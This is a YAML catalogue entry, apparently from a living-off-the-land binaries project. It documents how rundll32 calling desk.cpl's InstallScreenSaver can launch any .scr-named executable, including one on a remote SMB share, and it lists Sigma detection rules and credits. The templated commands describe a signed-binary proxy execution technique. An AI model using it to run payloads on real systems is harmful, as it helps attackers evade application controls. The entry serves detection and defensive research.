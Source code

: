 ```yaml
---
Name: Desk.cpl
Description: Desktop Settings Control Panel
Author: Hai Vaknin
Created: 2022-04-21
Commands:
  - Command: rundll32.exe desk.cpl,InstallScreenSaver {PATH_ABSOLUTE:.scr}
    Description: Launch an executable with a .scr extension by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: rundll32.exe desk.cpl,InstallScreenSaver {PATH_SMB:.scr}
    Description: Launch a remote executable with a .scr extension, located on an SMB share, by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: EXE
      - Execute: Remote
Full_Path:
  - Path: C:\Windows\System32\desk.cpl
  - Path: C:\Windows\SysWOW64\desk.cpl
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/file/file_event/file_event_win_new_src_file.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_rundll32_installscreensaver.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/940f89d43dbac5b7108610a5bde47cda0d2a643b/rules/windows/registry/registry_set/registry_set_scr_file_executed_by_rundll32.yml
Resources:
  - Link: https://vxug.fakedoma.in/zines/29a/29a7/Articles/29A-7.030.txt
  - Link: https://twitter.com/pabraeken/status/998627081360695297
  - Link: https://twitter.com/VakninHai/status/1517027824984547329
  - Link: https://jstnk9.github.io/jstnk9/research/InstallScreenSaver-SCR-files
Acknowledgement:
  - Person: Rafael S Marques
    Handle: '@pegabizu'
  - Person: Pierre-Alexandre Braeken
    Handle: '@pabraeken'
  - Person: hai
    Handle: '@VakninHai'
  - Person: Christopher Peacock
    Handle: '@SecurePeacock'
  - Person: Jose Luis Sanchez
    Handle: '@Joseliyo_Jstnk'
---
```

